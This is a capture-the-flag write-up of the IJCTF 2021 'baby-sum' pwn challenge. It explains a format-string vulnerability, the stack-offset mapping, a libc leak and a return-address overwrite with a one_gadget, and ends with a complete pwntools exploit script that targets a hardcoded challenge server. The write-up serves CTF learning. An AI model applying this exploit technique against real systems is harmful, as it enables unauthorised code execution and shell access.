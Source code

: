 Baby-sum was a pwn challenge from IJCTF 2021,

that was a bit tricky.

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/resume.png)

first we inspect the binary quickly to see the protections in place

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/prots.png)

ok let's reverse the program !!!!

the main function first:

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/main_rev.png)

the welcome function :

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/welcome_rev.png)

in the welcome function, we are given a free address leak of a variable on stack (name),  then we can store whatever we want in name.

but strangely, this name string, is no more used later in the program... maybe we can use it for something else...(humm...)

then let's see the calc() function and vuln() function that is called from calc()  where all happens..

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/calc_rev.png)

the called vuln() function, that is obviously a format string vulnerability.. 

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/vuln_rev.png)

ok we can see now how the calc function operates,

it reads 3 inputs (0,1,2) on stack with scanf('%8s', &num),  num is a pointer on stack to numbers[] array that is incremented at each turn..

in theory the inputs are numbers, but as it uses scanf(%8s), we can send whatever we want, numbers, strings, except carriage return that will end the input.

the function vuln is called on input, as printf(input)  and is obviously a format string vulnerability.. we can check it by sending %p for example as input..

like always in format string vulns, I identify what is reachable on stack with various printf offsets (name are according to the calc() reverse above):

here are some offsets..
* 6  -->  address of start
* 7  -->  address of numbers[0]
* 8  --> next frame pointer (points to offset 16)
* 9  --> return address of vuln() from calc() 
* 10  --> numbers[0]     at [rbp-0x30]
* 11  --> numbers[1]     at [rbp-0x28]
* 12 --> sformat            at [rbp-0x20]    will be set to '%8s' at calc() beginning
* 13  -->  sum variable , undefined at beginning of calc()... (can be set via welcome() function , qword at (name string + 0x28)
* 14 -->  i variable    at [rbp-0x10]      incremented at each turn (0,1,2)
* 15  --> num pointer  at [rbp-8]      incremented at each turn, point to &numbers[0] at beginning..
* 16 --> next frame pointer (points to offset 20)
* 17 --> return address from calc()

so we quickly found that the undefined var (will be sum variable, later in calc()),  can be defined with the name input in welcome() function:

let's try...

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/input1.png)

ok it works, as you can see we, if we put a breakpoint to the printf in vuln() function we can see the 'BBBBBBBB' == 0x4242424242424242   in the 13th position reachable by printf... good...

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/dump1.png)

as we know (with the welcome leak) the variable addresses, we will put a pointer to i variable counter, in position 13, with the name input string in welcome() function..

like this we can send '%13$n' string as input when we want, to clear i variable counter...and write 3 more positions...

so our attack strategy will be:

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/attack1.png)

num pointer points to &number[0]  at beginning of the loop,

we first send string "%1$p" to pass this position    (num --> pos 10)

then we send string "%13$n" to clear counter variable i    (num --> pos 11)

the we send string "%ld" that will replace "%8s" string at pos 12 (num --> pos12)

from now we can only enter numbers, as we changed the scanf format string to %ld, so we send '-'  that will write nothing to this position  (num --> pos13)

now num points to i (the counter)  we send -100 , as i is defined as a int64 and can be negative, so that we can write up to 102 values (num --> pos14)

now num points to itself on stack, good good!  we can modify it to move the place we will write on stack !! 

we set it to an address before on stack, that contains a libc address.. this address will be leaked by the puts() in vuln() function..

we got our libc leak, and with it calculate libc base,  that will be needed to calculate the one gadget address we will use in libc

now we pass the next 16 positions, be sending '-' string to scanf..

we are now again at i variable position, we send '0' to clear it (from now only 3 writes left before the calc() function return..

we pass the two next stack position, to reach the calc() function return address, that we replace with a one gadget address in libc..

and guess what ????

We got shell..


![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/IJCTF.2021/pwn/baby-sum/imgs/gotshell.png)


```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *
context.update(arch="amd64", os="linux")

exe = context.binary = ELF('./baby-sum')
libc = ELF('./libc.so.6')

host = args.HOST or '35.244.10.136'
port = int(args.PORT or 10252)

io = connect(host, port)

io.recvuntil('you: ', drop=True)
# first we read the given stack leak
stack = int(io.recvuntil('\n',drop=True),16)
print('leak stack = '+hex(stack))

# the name 6th entry will be on stack untouched, so we put a pointer
name = 'A'*40+p64(stack+0x30)

io.sendlineafter('you?\n', name)

io.sendlineafter('> ', '%1$p')
io.sendlineafter('> ', '%13$n')         # clear the i counter variable
io.sendlineafter('> ', '%ld')           # replace '%8s' string by '%ld'  no we can input numbers one by one
io.sendlineafter('> ' ,'-')             # pass the input, without writing anything
io.sendlineafter('> ' ,'-100')          # overwrite i variable with -100 (after all it is an int64)
io.sendlineafter('> ', str(stack-0x58)) # overwrite num variable to point before on stack containing a libc address, to leak it

# get our libc leak & calculate libc base
libc.address = u64(io.recvuntil('\n', drop=True).ljust(8,b'\x00')) - 0x1ec6a0
print('libc base = '+hex(libc.address))

def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]

onegadgets = one_gadget('libc.so.6', libc.address)

for i in range(16):
  io.sendlineafter('> ' ,'-')

io.sendlineafter('> ' ,'0')		# set i counter to 0 again (3 writes is all we need)
io.sendlineafter('> ' ,'-')
io.sendlineafter('> ' ,'-')
io.sendlineafter('> ' , str(onegadgets[1]))  # write onegadget to calc() return address , at this points i>2,  so calc() will return to our onegadget

# got shell now
io.interactive()
```

